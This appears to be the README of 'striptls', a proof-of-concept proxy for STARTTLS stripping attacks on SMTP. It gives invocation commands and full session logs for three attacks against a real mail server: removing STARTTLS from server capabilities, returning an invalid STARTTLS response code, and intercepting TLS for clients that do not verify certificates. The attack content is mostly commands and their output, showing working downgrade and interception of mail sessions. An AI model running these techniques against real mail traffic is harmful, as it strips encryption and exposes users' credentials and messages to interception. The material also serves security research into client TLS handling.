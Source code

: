 # striptls - proxy

poc implementation of STARTTLS stripping attacks

* SMTP
 * SMTP.StripFromCapabilities - server response capability patch
 * SMTP.StripWithInvalidResponseCode - client STARTTLS stripping, invalid response code
 * SMTP.UntrustedIntercept - STARTTLS interception (client and server talking ssl) (requires server.pem in pwd)
 
* XMPP

## Attacks

local smtp-client -> localhost:8825 (proxy) -> mail.gmx.net:25

### Strip STARTTLS from server capabilities

	#> localhost 8825 mail.gmx.net 25 SMTP.StripFromCapabilities
	2016-01-31 15:44:35,000 - INFO     - <Proxy 0x1fe6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	2016-01-31 15:44:35,000 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripFromCapabilities at 0x01FE77D8>])}>
	2016-01-31 15:44:37,030 - DEBUG    - <ProtocolDetect 0x1fe6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> client ('127.0.0.1', 20070) has connected
	2016-01-31 15:44:37,032 - INFO     - <Session 0x1fe6f10> connecting to target ('mail.gmx.net', 25)
	2016-01-31 15:44:39,051 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	2016-01-31 15:44:40,335 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250 AUTH LOGIN PLAIN\r\n'
	2016-01-31 15:44:40,746 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '530 Authentication required\r\n'
	2016-01-31 15:44:41,292 - DEBUG    - <Session 0x1fe6f10> [client] => [server]          'rset\r\n'
	2016-01-31 15:44:41,605 - DEBUG    - <Session 0x1fe6f10> [client] <= [server]          '250 OK\r\n'
	2016-01-31 15:44:41,612 - WARNING  - <Session 0x1fe6f10> terminated.

### Invalid STARTTLS response code

	#> striptls.py localhost 8825 mail.gmx.net 25 SMTP.StripWithInvalidResponseCode
	2016-01-31 15:42:40,325 - INFO     - <Proxy 0x1fefe70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	2016-01-31 15:42:40,325 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.StripWithInvalidResponseCode at 0x02010730>])}>
	2016-01-31 15:43:19,755 - DEBUG    - <ProtocolDetect 0x1feff90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> client ('127.0.0.1', 20061) has connected
	2016-01-31 15:43:19,756 - INFO     - <Session 0x1feff10> connecting to target ('mail.gmx.net', 25)
	2016-01-31 15:43:21,473 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '220 gmx.com (mrgmx003) Nemesis ESMTP Service ready\r\n'
	2016-01-31 15:43:22,395 - DEBUG    - <Session 0x1feff10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	2016-01-31 15:43:23,019 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'STARTTLS\r\n'
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] <= [server][mangled] '200 STRIPTLS\r\n'
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server][mangled] None
	2016-01-31 15:43:23,035 - DEBUG    - <Session 0x1feff10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '530 Authentication required\r\n'
	2016-01-31 15:43:23,160 - DEBUG    - <Session 0x1feff10> [client] => [server]          'rset\r\n'
	2016-01-31 15:43:23,269 - DEBUG    - <Session 0x1feff10> [client] <= [server]          '250 OK\r\n'
	2016-01-31 15:43:23,285 - WARNING  - <Session 0x1feff10> terminated.


### Untrusted SSL Intercept (for clients not checking server cert trust)

	#> striptls.py localhost 8825 mail.gmx.net 25 SMTP.UntrustedIntercept
	2016-01-31 15:41:27,644 - INFO     - <Proxy 0x20a6e70 listen=('localhost', 8825) target=('mail.gmx.net', 25)> ready.
	2016-01-31 15:41:27,644 - INFO     - <RewriteDispatcher attacks={25: set([<class __main__.UntrustedIntercept at 0x020A76C0>])}>
	2016-01-31 15:41:33,904 - DEBUG    - <ProtocolDetect 0x20a6f90 is_protocol=PROTO_SMTP len_history=0> - protocol detected (target port)
	2016-01-31 15:41:33,907 - INFO     - <Session 0x20a6f10> client ('127.0.0.1', 20053) has connected
	2016-01-31 15:41:33,907 - INFO     - <Session 0x20a6f10> connecting to target ('mail.gmx.net', 25)
	2016-01-31 15:41:34,377 - DEBUG    - <Session 0x20a6f10> [client] <= [server]          '220 gmx.com (mrgmx002) Nemesis ESMTP Service ready\r\n'
	2016-01-31 15:41:35,598 - DEBUG    - <Session 0x20a6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:41:35,806 - DEBUG    - <Session 0x20a6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250 STARTTLS\r\n'
	2016-01-31 15:41:35,806 - DEBUG    - <Session 0x20a6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 31457280\r\n250-AUTH LOGIN PLAIN\r\n250-STARTTLS\r\n250 STARTTLS\r\n'
	2016-01-31 15:41:35,822 - DEBUG    - <Session 0x20a6f10> [client] => [server]          'STARTTLS\r\n'
	2016-01-31 15:41:35,822 - DEBUG    - <Session 0x20a6f10> [client] <= [server][mangled] '220 Go ahead\r\n'
	2016-01-31 15:41:36,072 - DEBUG    - <Session 0x20a6f10> [client] <= [server][mangled] waiting for inbound SSL Handshake
	2016-01-31 15:41:36,072 - DEBUG    - <Session 0x20a6f10> [client] => [server] 'STARTTLS\r\n'
	2016-01-31 15:41:36,290 - DEBUG    - <Session 0x20a6f10> [client] => [server][mangled] performing outbound SSL handshake
	2016-01-31 15:41:36,980 - DEBUG    - <Session 0x20a6f10> [client] => [server][mangled] None
	2016-01-31 15:41:36,980 - DEBUG    - <Session 0x20a6f10> [client] => [server]          'ehlo [192.168.139.1]\r\n'
	2016-01-31 15:41:37,194 - DEBUG    - <Session 0x20a6f10> [client] <= [server]          '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 69920427\r\n250 AUTH LOGIN PLAIN\r\n'
	2016-01-31 15:41:37,194 - DEBUG    - <Session 0x20a6f10> [client] <= [server][mangled] '250-gmx.com Hello [192.168.139.1] [109.126.64.18]\r\n250-SIZE 69920427\r\n250-STARTTLS\r\n250 AUTH LOGIN PLAIN\r\n'
	2016-01-31 15:41:37,194 - DEBUG    - <Session 0x20a6f10> [client] => [server]          'mail FROM:<a@b.com> size=10\r\n'
	2016-01-31 15:41:37,427 - DEBUG    - <Session 0x20a6f10> [client] <= [server]          '530 Authentication required\r\n'
	2016-01-31 15:41:37,427 - DEBUG    - <Session 0x20a6f10> [client] => [server]          'rset\r\n'
	2016-01-31 15:41:37,631 - DEBUG    - <Session 0x20a6f10> [client] <= [server]          '250 OK\r\n'
	2016-01-31 15:41:37,647 - WARNING  - <Session 0x20a6f10> terminated.
